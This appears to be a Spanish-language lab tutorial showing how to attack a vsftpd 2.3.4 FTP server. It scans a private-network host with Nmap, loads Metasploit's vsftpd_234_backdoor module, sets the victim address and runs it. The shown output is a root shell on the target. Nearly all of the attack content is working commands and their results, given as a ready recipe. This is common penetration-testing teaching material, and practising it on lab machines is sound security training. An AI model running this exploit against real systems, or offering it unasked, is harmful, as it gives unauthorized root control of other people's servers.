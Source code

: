 # Uso de Metasploit para atacar vsftpd

Correr Nmap para determinar el tipo de servidor FTP presente:

`nmap -p 21 192.168.100.93 -A`  

Lo que nos entrega los siguientes resultados:  

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:00 EDT
Nmap scan report for 192.168.100.93
Host is up (0.00080s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.100.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results a/ .
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```  

Abrir Metasploit con el comando `msfconsole`.  

Dentro de Metasploit buscar `vsftpd 2.3.4`. Se nos despliega un resultado. Podemos cargar ese módulo utilizando `Use 0`.

Con el comando `Show options` se nos despliegan los parámetros necesarios a configurar.  

```

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                      Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
```

Agregamos el `RHOST` (la dirección de la víctima).

`set RHOST direccion.de.la.victima`  

Ejecutamos el ataque con `run`.  

A continuación obtenemos un shell remoto como administradores del servidor:  

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.93:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.93:21 - USER: 331 Please specify the password.
[+] 192.168.100.93:21 - Backdoor service has been spawned, handling...
[+] 192.168.100.93:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.100.99:40451 -> 192.168.100.93:6200) at 2022-09-08 19:20:30 -0400

```

